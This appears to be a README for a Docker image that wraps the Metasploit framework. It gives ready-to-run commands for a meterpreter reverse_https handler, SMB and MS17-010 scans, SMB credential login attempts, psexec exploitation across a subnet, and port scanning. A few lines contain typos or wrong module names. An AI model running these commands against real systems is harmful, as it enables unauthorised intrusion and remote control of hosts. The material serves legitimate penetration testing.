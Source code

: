 # METASPLOIT DOCKER IMAGE

Docker image running metasploit.

For `metasploit` licence please read: [metasploit license](https://github.com/rapid7/metasploit-framework/blob/master/LICENSE)


# Usage

* run metasploit container

```bash
docker run -it --rm -v $PWD:/share boogy/metasploit
```

* run a complete meterpreter handler with port mapping and filesystem share

```bash
docker run -it --rm -p 80 -p 8080 -p 443 -p 8443 -v $PWD:/share boogy/metasploit msfconsole -x "spool /metasploit.log; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.60.200; set LPORT 443; set ExitOnSession false; set EnableStageEncoding true; set StageEncoder x64/zutto_dekiru; exploit -j -z"
```

* run metasploit container with ports mapped

```bash
docker run -it --rm -p 443 -p 8443 -v $PWD:/share boogy/metasploit
```

* http_version scanner

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/http/http_version; set RHOSTS 192.168.10.0/24; set THREADS 10; exploit -j"
```

* MS17-010 scanner

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/smb/smb_ms17_10; set RHOSTS 192.168.10.0/24; set THREADS 20; exploit -j"
```

* smb_login module

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/smb/smb_login; set RHOSTS 1192.168.10.0/24; set SMBDomain FOO; set SMBPass Passw0rd; set SMBUser foo; set THREADS 20; set DETECT_ANY_AUTH false ; exploit -j"
```

* psexec module

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use exploit/windows/smb/psexec; set RHOSTS 192.168.10.0/24; set SMBDomain FOO; set SMBPass Passw0rd; set SMBUser foo; set THREADS 20; set DETECT_ANY_AUTH false; exploit -j"
```

* tcp port scanner in background

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/portscan/tcp; set RHOST 0.0.0.0/24; set THREADS 30; exploit -j"
